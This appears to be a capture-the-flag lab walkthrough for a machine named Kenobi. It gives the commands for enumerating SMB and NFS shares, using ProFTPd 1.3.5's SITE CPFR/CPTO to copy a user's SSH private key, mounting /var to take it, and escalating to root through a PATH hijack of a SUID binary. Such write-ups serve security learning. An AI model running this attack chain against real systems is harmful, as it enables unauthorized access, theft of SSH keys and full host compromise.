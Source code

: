 + Ran initial and all vuln nmap scan
+ Samba/SMB is running
+ SMB shares enumerated using:
	`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.219.170`
+ Found three shares: IPC$, anonymous, print$
+ Inspected shares using smbclient:
	`smbclient //10.10.219.170/anonymous`
+ anonymous contain log.txt. Recursively downloaded using:
	`smbget -R smb://10.10.219.170/anonymous`
+ According to initial nmap scan rpc service is running on port 111 as a network file system. Enumerated using:
	`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.219.170`
			OR	
	`showmount -e 10.10.219.170`
+ ProFTPd Server 1.3.5 running on port 21
+ Found three exploits for proftpd using searchsploit
+ Connected to Proftp using nc and copied SSH private key to /var/tmp using SITE CPFR and SITE CPTO
+ Mounted var directory using:
	`sudo mkdir /mnt/kenobiNFS`
	`sudo mount 10.10.219.170:/var /mnt/kenobiNFS`
+ Copied id_rsa to current working dir and used it to ssh into kenobi
+ Looked for SUID binaries using:
	`find / -perm -u=s -type f 2>/dev/null`
+ /usr/bin/menu is suspicious
+ menu runs three cmds and using strings, we can see that it does not use full path
+ Manipulated the PATH variable to privesc as follows:
	`echo /bin/sh > curl`
	`chmod 777 curl`
	`export PATH=/home/kenobi:$PATH`
	`/usr/bin/menu` -> 1
+ Unmount using `sudo umount /mnt/kenobiNFS`
